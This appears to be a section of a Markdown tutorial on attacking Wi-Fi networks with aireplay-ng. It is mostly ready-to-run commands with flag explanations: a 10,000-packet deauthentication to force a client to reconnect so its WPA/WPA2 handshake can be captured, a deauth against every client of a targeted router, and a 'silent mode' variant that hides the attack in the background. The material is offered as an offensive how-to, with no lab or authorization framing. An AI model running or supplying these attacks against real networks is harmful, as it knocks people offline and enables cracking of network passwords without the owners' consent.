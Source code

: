 
## ⚔️ Step 4: Capture the Handshake via Client Deauthentication

Trigger deauthentication packets to force a client to reconnect, thereby capturing the WPA/WPA2 handshake:

```bash
aireplay-ng --deauth 10000 -a [router BSSID] -c [client MAC] wlan0
```

* `--deauth 10000` – Sends 10,000 deauth packets.
* `-a [router BSSID]` – Specifies the AP’s MAC address.
* `-c [client MAC]` – Targets the client (station) MAC address.
* `wlan0` – Again, replace with your actual wireless interface.

🧠 *This simulates disconnection requests, tricking the client into reconnecting, which exposes the handshake.*

---

## ⚔️ Disconnect All Devices from a Targeted Router

### Basic deauth for all clients:

```bash
aireplay-ng --deauth 10000 -a [router BSSID] wlan0
```

* `--deauth 10000` – Number of deauth packets (adjust as needed).
* `-a [router BSSID]` – Targets the access point.
* No `-c` flag = affects **all connected clients**.
* `wlan0` – Your monitor-mode interface.

---

## 👻 Run Deauth in Background (Silent Mode)

To run the attack silently and in the background:

```bash
aireplay-ng --deauth 10000 -a [router BSSID] -c [client MAC] wlan0 &> /dev/null &
```

* `&> /dev/null` – Suppresses all output (stdout and stderr).
* `&` – Runs the command in the background.

![alt text](images/multi%20commands.png)
